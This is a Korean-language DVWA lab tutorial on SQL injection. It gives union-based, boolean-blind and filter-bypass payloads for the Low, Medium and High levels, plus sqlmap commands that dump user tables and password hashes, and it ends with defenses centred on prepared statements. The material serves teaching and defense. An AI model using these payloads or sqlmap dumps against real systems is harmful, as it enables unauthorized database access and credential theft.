



## 실습 환경

| 구분 | 내용 |
|---|---|
| 공격자 | Kali Linux (192.168.0.10) |
| 대상 서버 | Ubuntu + DVWA (192.168.0.30/DVWA/) |
| 도구 | Firefox, SQLmap |

---

## OWASP Top 10 매핑

| 항목 | 내용 |
|---|---|
| OWASP 카테고리 | **A03:2021 – Injection** |
| CWE | CWE-89 (SQL 명령에 사용되는 특수 요소의 부적절한 처리) |
| 영향 | 인증 우회, 전체 DB 열람·변조·삭제, 경우에 따라 OS 명령 실행(RCE) |
| 한 줄 핵심 | 사용자 입력이 "데이터"가 아니라 **"SQL 명령의 일부"** 로 해석될 때 발생한다 |

> SQL Injection은 XSS(02)·Command Injection(08)·File Inclusion(09)과 함께 **A03 Injection** 군에 속한다.  
> Injection 계열의 근본 방어 원리는 모두 동일하다 — **입력(데이터)과 코드(명령)를 분리**하는 것.
{: .prompt-info }

---

## 1. SQL Injection이란

웹 애플리케이션은 사용자 입력을 받아 데이터베이스에 전달하는 경우가 많다.  
로그인, 검색, 게시글 조회, 회원 정보 수정 등 거의 모든 기능이 SQL 쿼리와 연결되어 있다.

**SQL Injection(SQLi)**은 이 입력값을 통해 개발자가 의도하지 않은 SQL 쿼리를 실행시키는 공격이다.

### 1.1 근본 원인: String Concatenation

취약점의 핵심은 사용자 입력을 SQL 쿼리 문자열에 **직접 결합(String Concatenation)**하는 코드에 있다.

```php
// 취약한 PHP 코드 예시
$username = $_GET['username'];
$query = "SELECT * FROM users WHERE username = '" . $username . "'";
```

정상 입력 `admin`이 들어오면 쿼리는 다음과 같다.

```sql
SELECT * FROM users WHERE username = 'admin'
```

하지만 공격자가 `admin' OR '1'='1`을 입력하면 쿼리가 변형된다.

```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1'
```

`OR '1'='1'`은 항상 참이므로 WHERE 조건 전체가 참이 되어 모든 레코드가 반환된다.

> 입력값과 SQL 명령어가 분리되지 않을 때 "데이터"가 "명령의 일부"가 된다.
{: .prompt-danger }

---

## 2. SQL Injection 공격 종류

### 2.1 공격 분류 개요



### 2.2 In-band SQLi (Union-based)

- 공격과 결과 수집이 **같은 통신 채널**로 이루어짐
- `UNION` 구문을 이용해 원래 쿼리에 결과를 덧붙임
- 결과가 웹 페이지에 즉시 출력되므로 빠르게 데이터 추출 가능

### 2.3 Blind SQLi

결과가 화면에 출력되지 않을 때 사용한다.

| 유형 | 원리 | 예시 |
|---|---|---|
| Boolean-based | 참/거짓에 따라 페이지 반응이 다를 때 | `AND 1=1` vs `AND 1=2` |
| Time-based | 쿼리 실행 시간 지연으로 정보 유추 | `AND SLEEP(5)` |

### 2.4 Out-of-band SQLi

- DNS 조회나 HTTP 요청 등 **외부 채널**로 데이터를 유출
- `LOAD_FILE()`, `INTO OUTFILE`, DNS exfiltration 기법 활용
- 네트워크 제한이 없는 환경에서 Blind SQLi 대안으로 사용

---

## 3. Union-based SQLi 단계별 분석

Union-based 공격은 5단계로 진행된다.



### 3.1 1단계: 컬럼 개수 파악

`ORDER BY` 구문으로 컬럼 수를 하나씩 늘려가며 오류가 발생하는 지점을 찾는다.

```sql
-- 컬럼이 1개 이상이면 정상
1' ORDER BY 1--

-- 컬럼이 2개 이상이면 정상
1' ORDER BY 2--

-- 오류 발생 시 컬럼 수는 이전 숫자
1' ORDER BY 3--
```

또는 `UNION SELECT null` 방식으로 직접 맞춰도 된다.

```sql
1' UNION SELECT null--
1' UNION SELECT null,null--
```

### 3.2 2단계: DB 정보 추출

컬럼 수가 2개임을 확인했다면 각 컬럼 위치에 DB 메타데이터 함수를 넣는다.

```sql
1' UNION SELECT @@version, database()--
```

| 함수 | 반환값 |
|---|---|
| `@@version` | DB 버전 (예: 8.0.30-MySQL) |
| `database()` | 현재 DB 이름 |
| `user()` | 현재 DB 사용자 |
| `@@hostname` | 서버 호스트명 |

### 3.3 3단계: 테이블 목록 조회

`information_schema.tables`는 MySQL이 모든 테이블 정보를 저장하는 내부 DB다.

```sql
1' UNION SELECT table_name, 2
FROM information_schema.tables
WHERE table_schema=database()--
```

### 3.4 4단계: 컬럼 목록 조회

테이블명(`users`)을 확인했다면 해당 테이블의 컬럼을 조회한다.

```sql
1' UNION SELECT column_name, 2
FROM information_schema.columns
WHERE table_name='users'--
```

### 3.5 5단계: 실제 데이터 추출

```sql
1' UNION SELECT user, password FROM users--
```

> 실습 환경(DVWA)의 패스워드는 MD5 해시로 저장된다. 실제 침투 시 `hashcat`이나 온라인 레인보우 테이블로 크랙 시도가 이루어진다.
{: .prompt-warning }

---

## 4. Boolean-based Blind SQLi

화면에 데이터가 출력되지 않고 **참/거짓 반응만 구별 가능**할 때 사용한다.

### 4.1 기본 참/거짓 테스트

```sql
-- 참: 정상 결과 페이지
1' AND 1=1--

-- 거짓: 결과 없음 또는 다른 메시지
1' AND 1=2--
```

두 페이지의 반응이 다르면 Boolean-based Blind SQLi가 가능한 환경이다.

### 4.2 DB명 길이 추출

```sql
-- DB명이 4글자인가?
1' AND LENGTH(database())=4--

-- 5글자인가?
1' AND LENGTH(database())=5--
```

### 4.3 DB명 한 글자씩 추출

```sql
-- DB명 첫 글자가 'd'인가?
1' AND SUBSTRING(database(),1,1)='d'--

-- DB명 두 번째 글자가 'v'인가?
1' AND SUBSTRING(database(),2,1)='v'--
```

실제로는 이 과정을 수동으로 수십 번 반복해야 한다.  
자동화 도구(SQLmap)가 필요한 이유다.

> Boolean-based Blind SQLi는 요청 수가 매우 많아 네트워크 로그에 흔적이 남는다. WAF나 IDS에서 탐지될 가능성이 높다.
{: .prompt-warning }

---

## 5. DVWA 실습

### 5.0 레벨별 공격·방어 한눈에

| 레벨 | 서버 측 방어 | 공격(우회) 방안 | 그 레벨의 방어 한계 |
|---|---|---|---|
| **Low** | 없음 (입력 그대로 결합) | `1' OR '1'='1`, `UNION SELECT` 로 직접 덤프 | 검증 자체가 없음 |
| **Medium** | `mysqli_real_escape_string()` 로 따옴표 차단 + 드롭다운 입력 | 숫자형 파라미터라 **따옴표 없이** `1 OR 1=1#`, Burp로 POST 변조 | 따옴표만 막아 **숫자형엔 무력** |
| **High** | 입력을 별도 팝업/세션으로 분리 + `LIMIT 1` | `#`로 `LIMIT 1` 주석 처리해 다중 행 추출 | 입력 위치만 숨길 뿐 주입 자체는 가능 |
| **Impossible** | **PDO Prepared Statement** + `is_numeric()` + Anti-CSRF 토큰 | 주입 불가 (입력이 항상 데이터로 바인딩됨) | — (근본 방어) |

> 핵심: Low→High의 방어는 모두 **"입력을 걸러내려는" 우회 가능한 시도**다.  
> Impossible 레벨의 **Prepared Statement(파라미터 바인딩)** 만이 주입을 원천 차단한다(8장 참고).
{: .prompt-tip }

### 5.1 Security Level 설정

1. `http://192.168.0.30/DVWA/` 접속
2. 로그인: `admin` / `password`
3. 좌측 메뉴 **DVWA Security** → **Low** 선택 → **Submit**

### 5.2 기본 동작 확인

**SQL Injection** 메뉴 접속 후 `User ID` 입력창에 `1` 입력.

```
First name: admin
Surname: admin
```

정상적으로 사용자 정보가 반환된다.

### 5.3 취약점 확인

```
1' OR '1'='1
```

모든 사용자 정보가 출력된다면 SQL Injection 취약점이 존재한다.

> 오류 메시지가 노출되면 DB 종류, 버전, 쿼리 구조까지 파악 가능하다. 오류 메시지 노출 자체가 심각한 정보 유출이다.
{: .prompt-danger }

### 5.4 Union-based 공격 실습

**Step 1. 컬럼 수 파악**

```
1' ORDER BY 1--
```
- 결과 정상 출력 → 컬럼 1개 이상

```
1' ORDER BY 2--
```
- 결과 정상 출력 → 컬럼 2개 이상

```
1' ORDER BY 3--
```
- 오류 발생 → **컬럼 수 = 2개** 확인

**Step 2. 출력 컬럼 위치 확인**

```
1' UNION SELECT 1,2--
```

화면에 `1`과 `2`가 출력되는 위치를 확인한다.  
First name 자리에 첫 번째 컬럼, Surname 자리에 두 번째 컬럼이 출력된다.

**Step 3. DB 정보 추출**

```
1' UNION SELECT @@version, database()--
```

출력 예시:
```
First name: 8.0.30-0ubuntu0.22.04.1
Surname: dvwa
```

**Step 4. 테이블 목록 조회**

```
1' UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema=database()--
```

출력 예시:
```
First name: guestbook
Surname: 2

First name: users
Surname: 2
```

**Step 5. 계정 정보 탈취**

```
1' UNION SELECT user, password FROM users--
```

출력 예시:
```
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03
```

MD5 해시값이 덤프되었다. `5f4dcc3b5aa765d61d8327deb882cf99`는 `password`의 MD5 값이다.

---

### 5.5 Security Level: Medium 공략 (따옴표 없는 숫자형 주입)

DVWA Security를 **Medium**으로 바꾸면 두 가지가 달라진다.

1. 입력칸이 **드롭다운(선택 박스)** 으로 바뀐다 → 브라우저에서 직접 타이핑할 수 없다.
2. 서버가 `mysqli_real_escape_string()`으로 **따옴표(`'`)를 막는다** → Low의 `1' OR '1'='1`은 통하지 않는다.

**핵심 우회 원리**: Medium의 쿼리는 `... WHERE user_id = $id` 로, **id가 따옴표로 감싸이지 않은 숫자**다.  
따라서 **따옴표 없이** 숫자 자리에 SQL을 바로 이어 붙이면 된다.

**1단계 — 드롭다운이라 Burp Suite로 변조**

1. Burp Suite Proxy의 **Intercept**를 **ON**으로 둔다. (00번 설정 참고)
2. DVWA SQLi(Medium) 페이지에서 드롭다운 값 하나를 고르고 **Submit**.
3. 가로채진 **POST 요청**에서 `id=1` 부분을 아래 페이로드로 바꾸고 **Forward**한다.

**2단계 — 따옴표 없는 페이로드 (그대로 `id=` 값에 사용)**

```
1 OR 1=1#
```
→ 모든 사용자 출력

```
1 UNION SELECT user, password FROM users#
```
→ 계정·해시 덤프

```
1 UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema=database()#
```
→ 테이블 목록 (따옴표 불필요)

- 문자열을 꼭 비교해야 할 때는 따옴표 대신 **16진수**를 쓴다.  
  예: `... WHERE table_name = 0x7573657273` (`0x7573657273` = `users`의 16진수)
- 끝의 `#`은 MySQL 주석이라 뒤따르는 구문을 무시시킨다.  
  (`-- `는 뒤에 공백이 필요해 URL/폼에서는 `#`이 편하다.)

> **Medium의 교훈**: 따옴표만 막는 필터는 **숫자형 파라미터에서는 무력**하다.  
> 근본 방어는 8장의 **Prepared Statement**다.
{: .prompt-warning }

---

### 5.6 Security Level: High 공략 (LIMIT 주석 우회)

**High**는 자동화를 어렵게 만들도록 두 가지를 추가한다.

1. 입력을 **별도의 팝업 창**에서 받아 세션에 저장한다 → 같은 페이지에 입력칸이 없어 SQLmap 자동화가 까다롭다.
2. 쿼리에 `LIMIT 1`을 붙인다: `... WHERE user_id = '$id' LIMIT 1;`

하지만 **수동 주입은 여전히 가능**하다. 핵심은 `#`로 뒤의 `LIMIT 1`을 **주석 처리**하는 것.

**진행 절차**

1. SQL Injection (High) 페이지에서 **[Click here to change your ID]** 링크 클릭 → 팝업 입력창이 열린다.
2. 팝업 입력창에 아래를 입력하고 제출한다.

   ```
   ' UNION SELECT user, password FROM users #
   ```

3. 원래 페이지로 돌아오면 전체 계정·해시가 출력된다.  
   `#`가 뒤의 `' LIMIT 1`을 주석 처리해, 한 행만 반환하던 제한이 풀리고 여러 행이 나온다.

> **High의 한계**: "입력 위치를 숨기고 LIMIT을 거는" 정도라 **수동 공격은 막지 못한다.**  
> 진짜 해결책은 Impossible 레벨(8장)의 Prepared Statement뿐이다.
{: .prompt-tip }

> SQLmap으로 High를 자동화하려면 입력 페이지와 결과 페이지가 분리돼 있어  
> `-r 요청파일 --second-url=결과URL` 같은 고급 옵션이 필요하다. **수동 학습을 먼저 권장**한다.
{: .prompt-info }

---

## 6. SQLmap 자동화

수동 공격은 시간이 오래 걸리고 오류가 생기기 쉽다.  
**SQLmap**은 SQLi 탐지부터 데이터 덤프까지 자동화해 주는 대표적인 오픈소스 도구다.

> SQLmap은 교육 및 허가된 모의해킹 환경에서만 사용해야 한다. 무단 사용은 법적 제재 대상이다.
{: .prompt-danger }

### 6.1 사전 준비: 세션 ID 확인

SQLmap은 인증이 필요한 페이지에 접근하기 위해 로그인된 세션 쿠키가 필요하다.

1. Firefox에서 DVWA 로그인
2. `F12` → **Network** 탭 → 아무 요청 클릭 → **Request Headers**
3. `Cookie:` 헤더에서 `PHPSESSID=<값>` 복사

### 6.2 Step 1: 취약점 탐지

```bash
sqlmap -u "http://192.168.0.30/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<세션ID>; security=low" \
  --batch
```

`--batch`: 사용자 입력 없이 기본값으로 자동 진행

주요 출력:
```
[INFO] GET parameter 'id' is vulnerable
[INFO] the back-end DBMS is MySQL
```

### 6.3 Step 2: DB 목록 조회

```bash
sqlmap -u "http://192.168.0.30/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<세션ID>; security=low" \
  --dbs --batch
```

출력 예시:
```
available databases [4]:
[*] dvwa
[*] information_schema
[*] mysql
[*] performance_schema
```

### 6.4 Step 3: 테이블 목록 조회

```bash
sqlmap -u "http://192.168.0.30/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<세션ID>; security=low" \
  -D dvwa --tables --batch
```

출력 예시:
```
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```

### 6.5 Step 4: 컬럼 확인

```bash
sqlmap -u "http://192.168.0.30/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<세션ID>; security=low" \
  -D dvwa -T users --columns --batch
```

출력 예시:
```
Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user         | varchar(15) |
| password     | varchar(32) |
| user_id      | int(6)      |
| first_name   | varchar(15) |
| last_name    | varchar(15) |
| avatar       | varchar(70) |
| last_login   | timestamp   |
| failed_login | int(3)      |
+--------------+-------------+
```

### 6.6 Step 5: 데이터 덤프

```bash
sqlmap -u "http://192.168.0.30/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<세션ID>; security=low" \
  -D dvwa -T users -C user,password --dump --batch
```

출력 예시:
```
Database: dvwa
Table: users
[5 entries]
+---------+----------------------------------+
| user    | password                         |
+---------+----------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
| gordonb | e99a18c428cb38d5f260853678922e03 |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 |
+---------+----------------------------------+
```

> SQLmap은 `--dump` 옵션 실행 시 MD5 해시를 자동으로 크랙 시도한다.  
> `--dump-all` 옵션은 모든 DB의 모든 테이블을 덤프한다. 실습 환경에서만 사용할 것.
{: .prompt-tip }

---

## 7. Blind SQLi 실습 (DVWA)

**DVWA > SQL Injection (Blind)** 메뉴로 이동한다.

### 7.1 Boolean 테스트

```
1' AND 1=1--
```
결과: `User ID exists in the database.` 출력 → 참

```
1' AND 1=2--
```
결과: `User ID is MISSING from the database.` 출력 → 거짓

두 반응이 다르다면 Boolean-based Blind SQLi 가능 확인.

### 7.2 DB명 추출

```
1' AND LENGTH(database())=4--
```
참이면 DB명은 4글자.

```
1' AND SUBSTRING(database(),1,1)='d'--
```
참이면 DB명 첫 글자는 `d`.

이 과정을 반복하면 `dvwa` 전체를 한 글자씩 추출할 수 있다.

### 7.3 SQLmap으로 Blind SQLi 자동화

```bash
sqlmap -u "http://192.168.0.30/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<세션ID>; security=low" \
  --technique=B \
  --dbs --batch
```

`--technique=B`: Boolean-based Blind만 사용 (B=Boolean, T=Time-based)

> Blind SQLi는 쿼리를 수백~수천 번 반복 전송한다. 실제 환경에서는 IDS/WAF가 이를 탐지해 IP를 차단할 수 있다.
{: .prompt-warning }

---

## 8. 방어 방법

### 8.1 Prepared Statement (파라미터화된 쿼리) — 핵심 방어책

입력값과 SQL 구조를 완전히 분리하여 주입 자체를 불가능하게 만든다.

```php
// 취약한 코드
$query = "SELECT * FROM users WHERE user = '" . $_GET['id'] . "'";

// 안전한 코드 (Prepared Statement)
$stmt = $pdo->prepare("SELECT * FROM users WHERE user = ?");
$stmt->execute([$_GET['id']]);
```

파라미터 바인딩을 사용하면 입력값은 항상 **데이터**로만 처리되고 SQL 명령 구조에 영향을 줄 수 없다.

### 8.2 ORM 프레임워크 활용

직접 SQL을 작성하지 않고 ORM(Object-Relational Mapping)을 사용하면 내부적으로 파라미터 바인딩이 적용된다.

```python
# Django ORM 예시 (안전)
user = User.objects.get(username=username)

# Raw Query는 피할 것
user = User.objects.raw(f"SELECT * FROM users WHERE username='{username}'")
```

### 8.3 입력값 검증 및 화이트리스트

```php
// User ID는 숫자만 허용
if (!ctype_digit($_GET['id'])) {
    die("Invalid input");
}
```

블랙리스트(특수문자 필터링) 방식은 우회 기법이 많아 화이트리스트 방식을 권장한다.

### 8.4 최소 권한 DB 계정 사용

| 계정 목적 | 필요 권한 |
|---|---|
| 웹 애플리케이션 | SELECT, INSERT, UPDATE, DELETE (해당 DB만) |
| 관리 작업 | 별도 관리자 계정 |
| 절대 금지 | 웹 앱에 DBA(root) 권한 부여 |

```sql
-- 최소 권한 계정 생성 예시 (MySQL)
CREATE USER 'webapp'@'localhost' IDENTIFIED BY 'strong_password';
GRANT SELECT, INSERT, UPDATE, DELETE ON dvwa.* TO 'webapp'@'localhost';
FLUSH PRIVILEGES;
```

DB 계정에 `root` 권한이 있으면 SQLi 공격자가 OS 명령 실행(`xp_cmdshell`, `INTO OUTFILE`)까지 가능해진다.

### 8.5 WAF (Web Application Firewall) 적용

WAF는 알려진 SQLi 패턴을 탐지해 차단한다. ModSecurity, AWS WAF 등이 대표적이다.

> WAF는 보조 방어 수단이다. 근본적인 코드 수준 방어(Prepared Statement) 없이 WAF만 믿는 것은 위험하다. WAF 우회 기법도 존재한다.
{: .prompt-warning }

### 8.6 에러 메시지 은닉

```php
// 취약: 상세 오류 노출
$result = $conn->query($sql) or die($conn->error);

// 안전: 오류 로깅만, 사용자에게는 일반 메시지
$result = $conn->query($sql);
if (!$result) {
    error_log($conn->error);
    die("잠시 후 다시 시도해 주세요.");
}
```

### 8.7 방어 전략 요약



---

## 9. 정리

SQL Injection은 OWASP Top 10에서 수십 년째 상위권을 유지하는 대표적인 웹 취약점이다.  
복잡한 익스플로잇 기법이 필요한 것이 아니라 **코드 작성 방식의 근본적인 문제**에서 비롯된다.

핵심 요약:

1. **원인**: 사용자 입력을 SQL 쿼리에 직접 결합 (String Concatenation)
2. **공격 유형**: Union-based (직접 추출) / Blind (참/거짓·시간 기반) / Out-of-band
3. **자동화 도구**: SQLmap으로 탐지부터 덤프까지 자동화 가능
4. **핵심 방어**: **Prepared Statement** — 입력값을 항상 데이터로만 처리
5. **보조 방어**: 입력 검증, 최소 권한 계정, WAF, 오류 메시지 은닉

> 가장 강력한 방어는 Prepared Statement다. 이것 하나만 제대로 적용해도 대부분의 SQLi 공격을 원천 차단할 수 있다.
{: .prompt-tip }
